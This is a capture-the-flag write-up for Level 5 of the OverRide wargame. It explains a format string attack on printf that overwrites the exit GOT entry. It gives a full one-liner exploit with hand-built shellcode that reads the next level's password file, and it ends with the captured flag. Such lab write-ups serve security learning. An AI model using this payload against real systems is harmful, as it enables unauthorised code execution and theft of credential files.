 # Level 5

This time we instantly see a very bad printf usage that is vulnerable to format string attack. This is a classic format string attack where we will replace the address of the exit function in the GOT with the address of our shellcode. But this time our shellcode will not work because it has to get through a to_lower function. We have to cook a new shellcode that does not contain any ascii character between `@` and `[`. The new shellcode is a bit different, we cannot use push eax or a few other little subtilities but it is not that bad to make (yes it was). We place our shellcode in the environment to not be bothered with overflow or stack smashing and everything because our shellcode is big and we add NOPs to make sure we get a little bit of error margin. Last little subtility is we have to write the address in two halves because it is too big and will overflow the stdio buffer.

Finally to get the address of the env, we used [the code](./Ressources/getenv.c).

In order to compile it, we have to use -no-pie and -m32 flags

```bash
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08% 57187d%10$hn% 8340d%11$hn"' | env -i SHELLCODE=$(python -c 'print "\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xb2\x01\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x29\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xb2\x29\x89\xe1\xcd\x80\xb0\x01\xcd\x80"') ./level05
```
And we get our flag :
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
